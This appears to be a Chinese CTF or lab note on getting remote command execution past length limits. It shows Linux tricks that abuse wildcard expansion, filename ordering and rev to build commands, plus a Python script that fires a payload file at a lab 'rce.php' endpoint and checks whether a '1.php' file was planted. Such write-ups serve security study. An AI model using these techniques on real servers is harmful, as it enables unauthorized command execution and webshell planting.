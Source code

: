     ```php

    //知识点1
    输入通配符* ，Linux会把第一个列出的文件名当作命令，剩下的文件名当作参数

    >id
    >root
    *    （等同于命令：id root）

    ----------------------------------------------

    //知识点2，通过rev来倒置输出内容
    >rev
    echo 1234 > v
    *v    （等同于命令：rev v）

    ----------------------------------------------

    #需要 0> t- sl这样的顺序，但是创建对应名文件后ls，出现了`0>` sl t-这样的顺序，也就是说t-到后面了，那么可以用ls 的h参数也加上去，就变成了 '0>' ht- ls

    >0\>
    >ht-
    >sl

    ---------------------------------------------

    用dir代替ls可以将内容不换行输出到指定文件中

    ls > a 后的内容都是每行一个文件名
    dir> a 之后的内容都是位于同一行的

    ```


* 快速请求脚本

    ```python

    #!/usr/bin/python
    # -*- coding: UTF-8 -*-

    import requests

    url = "http://192.168.61.157/rce.php?1={0}"
    print("[+]start attack!!!")
    with open("payload.txt","r") as f:
        for i in f:
            print("[*]" + url.format(i.strip()))
            requests.get(url.format(i.strip()))

    #检查是否攻击成功
    test = requests.get("http://192.168.61.157/1.php")
    if test.status_code == requests.codes.ok:
        print("[*]Attack success!!!")


    ```
